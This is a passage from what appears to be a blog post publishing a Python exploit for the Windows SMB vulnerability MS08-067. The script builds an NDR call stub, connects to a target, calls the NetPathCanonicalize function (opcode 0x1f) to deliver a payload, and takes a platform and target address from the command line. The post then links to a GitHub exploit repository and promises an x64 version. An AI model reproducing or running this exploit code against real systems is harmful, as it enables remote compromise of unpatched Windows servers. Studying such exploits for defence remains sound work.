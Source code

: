    # Create the call stub string
    stub = ndr_uwstring(server)
    stub += ndr_wstring_prebuilt(path)
    stub += ndr_long(outbuf)
    stub += ndr_wstring(prefix)
    stub += ndr_long(path_type)
    stub += ndr_long(flags)
    
    dce = connect(target)
    print "[*]\tCall stub size %s" % len(stub)
    
    # NetPathCanonicalize func. opcode 0x1f
    dce.call(0x1f, stub)
    
    print "[*]\tPayload delivered"

if __name__ == "__main__":
    if len(sys.argv) == 3:
        platform = sys.argv[1]
        target = sys.argv[2]
        print "[*]\tPlatform: %s Target: %s" % (platform, target)
        cfg = offsets(platform)
        exploit(target, cfg)
    else:
        print "[*]\t%s <target> <ipaddress>" % sys.argv[0]
        print "[*]\tTarget: win2k3sp2"

{% endhighlight %}

[Exploit Github](https://github.com/0x4E0x650x6F/exploits/blob/master/platforms/windows/remote/smb/ms08-067.py)

Have fun see tou next time with x64 bit version of this one :)



